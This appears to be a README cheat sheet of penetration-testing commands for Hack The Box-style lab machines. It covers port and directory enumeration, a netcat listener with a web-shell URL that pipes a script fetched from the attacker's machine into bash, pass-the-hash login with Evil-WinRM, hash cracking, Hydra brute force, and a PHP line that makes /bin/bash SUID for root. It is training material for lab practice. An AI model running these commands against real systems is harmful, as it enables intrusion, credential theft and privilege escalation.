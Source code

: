 ## 🧰 Frequently Used Pentesting Commands

### 🔍 Enumeration
```bash
nmap -sC -sV -p- --min-rate 1000 10.129.54.238 -v
```

### 🌐 Virtual Host & Directory Discovery
```bash
gobuster vhost -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain
gobuster dir --url http://ignition.htb/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

### ☁️ AWS S3 Bucket Enumeration
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

### 🐚 Shell & Reverse Shell
```bash
nc -nvlp 1337
python3 -m http.server 8000
```

### 🪝 Web-based Reverse Shell Execution
```bash
http://thetoppers.htb/shell.php?cmd=curl%<attacking machine ip>:8000/shell.sh|bash
```

### 🕒 Time Synchronization (Useful for Kerberos/AD)
```bash
ntpdate pool.ntp.org  # Sync system clock with NTP server to avoid time skew issues
```

### 🔐 Evil-WinRM Access
```bash
evil-winrm -i administrator.htb -u administrator -H <NTLM_hash>   # Login using NTLM hash
evil-winrm -i administrator.htb -u administrator -p <password>    # Login using password

### 🔓 Cracking Hashes with Hashcat
```bash
# Auto-detect hash mode (not recommended for reliability)
hashcat -a 0 hash.txt /home/kali/Documents/rockyou.txt

# Specified mode (Apache $apr1$ MD5)
hashcat -m 1600 -a 0 hash.txt /home/kali/Documents/rockyou.txt
```

### ⚡ Privilege Escalation via SUID Bash (PHP RCE)
```php
<?php exec("chmod +s /bin/bash"); ?>
```
Then on the target:
```bash
/bin/bash -p  # Run with elevated privileges if SUID is set
```

### 🛠️ Hydra Brute-Force Examples
```bash
# SSH login
hydra -L usernames.txt -P password.txt 10.129.226.117 ssh 

# HTTP Basic Auth Brute Force
hydra -L users.txt -P passwords.txt 10.129.54.238 http-get /admin
```

### 📂 FTP Enumeration with Anonymous Login
```bash
# Check FTP banner and anonymous login
ftp 10.129.54.238

# If you see code 230:
# 230 Login successful.
# You have access to browse and download/upload if permitted

# Listing files
ls

# Downloading a file
get filename.txt
```

### 🔐 SSH Usage Basics
```bash
# Connect to SSH server
ssh username@10.129.226.117

# Use custom port (if not default 22)
ssh -p 2222 username@10.129.226.117

# Use private key for authentication
ssh -i /path/to/private_key.pem username@10.129.226.117

# Run a single command over SSH
ssh username@10.129.226.117 'ls -la /var/www/html'
```

### 📡 Checking Open Ports with `ss`
```bash
# List all listening TCP ports
ss -tln

# Breakdown:
# -t : TCP sockets
# -l : Listening sockets
# -n : Show port numbers (no DNS resolution)

# Example output:
# State     Recv-Q     Send-Q         Local Address:Port        Peer Address:Port
# LISTEN    0          128            0.0.0.0:22                0.0.0.0:*
```